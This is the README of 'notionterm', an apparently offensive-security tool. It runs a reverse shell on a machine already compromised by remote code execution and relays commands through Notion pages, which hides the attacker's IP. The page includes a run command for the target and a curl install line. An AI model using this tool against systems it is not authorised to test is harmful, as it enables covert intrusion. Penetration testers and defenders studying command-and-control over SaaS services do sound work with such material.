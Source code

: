 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo-first.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
  <li>Secure remote shell (Logically only person with writing access to the notion page can make rce with but...)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed bidirectionnal HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion (*template page will be provided soon*)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page


## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
